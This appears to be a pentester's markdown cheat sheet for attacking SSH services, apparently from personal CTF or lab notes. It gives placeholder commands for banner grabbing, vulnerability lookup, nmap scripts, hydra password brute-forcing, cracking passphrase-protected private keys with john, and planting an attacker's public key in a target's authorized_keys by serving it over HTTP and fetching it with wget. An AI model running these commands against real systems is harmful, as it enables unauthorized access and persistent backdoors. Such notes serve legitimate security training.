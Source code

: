 ### Initial checks

Banner grabbing:
```bash
nc -vn <IP> 22
```

Check version for vulnerabilities:
```bash
searchsploit ssh <VERSION>
```

Nmap enumeration:
```bash
nmap -p22 <IP> --script ssh*
```

Check the used ciphers, the cipher reveals the possible SSH private key names:

| Cipher  | Private key name |
| ------- | ---------------- |
| rsa     | id_rsa           |
| ecdsa   | id_ecdsa         |
| ed25519 | id_ed25519       |
| ...     | id_...           |


### Credentials?

SSH using credentials:
```bash
ssh <USERNAME>@<IP>
```
>[!info] 
>[No matching key exchange?](https://serverfault.com/questions/1047019/ssh-no-matching-key-exchange-method-found-when-kexalgorithm-is-listed-as-avai)

Bruteforce SSH:
```bash
hydra -L users -P passwords ssh://<IP> -s 22
```

Is the password encoded?
- [[Nickel]]
- Cyberchef magic wand


### Private key

Crack password protected private key:
```bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

Using private key:
```bash
chmod 600 id_rsa
ssh -i id_rsa <USERNAME>@<IP>
```


### Authorized_keys

Write public key to authorized_keys file on target host to authenticate using your own private key:
```bash
ssh-keygen -t rsa # Generate SSH Key
cd .ssh/ && sudo python3 -m http.server 80 # Start HTTP server to transfer key
wget http://<IP>/id_rsa.pub -o /home/<USER>/.ssh/authorized_keys # Transfer to target
ssh <USERNAME>@<IP>
```
>[!info]
>Can be put in the user's directory to allow for easy SSH access 
>- File upload capabilities
>- Writable .ssh folder
>- ...
